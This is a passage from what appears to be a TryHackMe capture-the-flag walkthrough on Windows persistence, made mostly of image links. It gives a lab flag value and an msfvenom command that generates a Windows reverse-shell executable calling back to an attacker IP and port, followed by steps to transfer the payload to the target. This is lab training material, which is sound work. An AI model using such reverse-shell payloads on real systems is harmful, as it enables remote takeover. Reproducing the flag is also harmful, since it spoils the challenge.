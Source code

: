     * Login back and get the shell

        ![task6-flag12](./images/task6-flag12.png)

* Insert flag13 here

    `THM{USER_TRIGGERED_PERSISTENCE_FTW}`

    * Create our payload

        ```
        msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.9.251.6 LPORT=7777 -f exe -o revshell.exe
        ```

        ![task6-payload4](./images/task6-payload4.png)

    * Transfer our payload to target machine

        ![task6-download](./images/task6-download.png)
